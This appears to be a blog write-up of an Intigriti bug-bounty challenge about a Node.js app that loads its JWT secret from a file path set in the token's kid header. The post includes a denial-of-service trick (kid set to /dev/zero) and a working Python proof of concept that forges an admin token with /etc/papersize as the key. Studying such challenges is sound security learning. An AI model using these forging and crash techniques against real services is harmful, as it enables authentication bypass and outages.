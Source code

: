 ```yaml
---
layout: post
title:  "Intigriti spot the vulnerability"
date:	2023-01-27
categories: jekyll update
---
```

# Code
This was a great opportunity for me to get started into node.js. I have been avoiding it like the plague, but it seems like humanity will go down in flames when npm breaks anyway.

A perfect opportunity to learn some node and repeat some jwt skills (I did some webpush stuff ages ago by hand.)

Lets get started and install what we need.
```bash
apt install node npm
npm install jsonwebtoken express cookie-parser
```

Lets copy down the code and add some logging.
```js
const fs = require('fs');
var jwt = require('jsonwebtoken');
const cookieParser = require('cookie-parser');
const app = require('express')();
app.use(cookieParser());


app.use((req, res, next) => {
        const token = req.cookies.session;
        if (!token) return res.sendStatus(403);

        jwt.verify(token,
                // getSecretKey(header, cb)
                (header, cb) => {
                        console.log(header.kid);
                        console.log(fs.readFileSync(header.kid));
                        cb(null, fs.readFileSync(header.kid));
                } , {algorithm: 'HS256'}, (err, data) => {
                        // is_valid(err, data)
                        console.log(err);
                        if(err) return res.sendStatus(403);
                        req.name = data.name;
                        return next();
                });
});


app.get('/protected', (req, res) => {
        if(req.name !== 'admin') return res.sendStatus(401);
        res.send('You are the admin!');
});

app.listen(8000);

```


Realizing it reads the secret from the file in header.kid. We do some testing.

Crafting in jwt.io
![](/assets/Pasted image 20230127100003.png)

and doing a test with known file and contents.
![](/assets/Pasted image 20230127100231.png)







# Bonus: Denial of Service

Sending kid: /dev/zero crashes the server.

```
kastberg@5CD9245KLN:/mnt/c/Users/robin.kastberg/hax/intigriti$ node 2023-01-23.js
/dev/zero
Segmentation fault (core dumped)
```

# Finding file with known contents.

```bash
$ find /etc -type f -size -10c -size +1c
/etc/debian_version
/etc/host.conf
/etc/mysql/conf.d/mysql.cnf
/etc/papersize
/etc/samba/gdbcommands
find: ‘/etc/ssl/private’: Permission denied
$ cat /etc/papersize
a4
$ cat /etc/papersize |xxd
00000000: 6134 0a                                  a4.
$ cat /etc/papersize |base64
YTQK
```
For some reason I didn't get this to work in jwt.io using base64 encoded secret. Not sure why.

Doing it in python however worked fine:
# POC or ....
```python
import json
import base64
import sys
import hmac
import hashlib
import requests

sizes = [b"a4", b"letter"]
for size in sizes:
    size = size + b"\n"
    h = {"alg": "HS256", "kid": "/etc/papersize"}
    d = {"name": "admin"}
    h = base64.urlsafe_b64encode(json.dumps(h).encode()).rstrip(b"=")
    d = base64.urlsafe_b64encode(json.dumps(d).encode()).rstrip(b"=")
    token = h+b"."+d
    s = hmac.new(size, token, hashlib.sha256).digest()
    token += b"." + base64.urlsafe_b64encode(s).rstrip(b"=")
    res = requests.get("http://localhost:8000/protected",
            cookies={"session": token.decode("ascii")})
    if(res.status_code == 200):
        print(token)
        print(res.text)
```
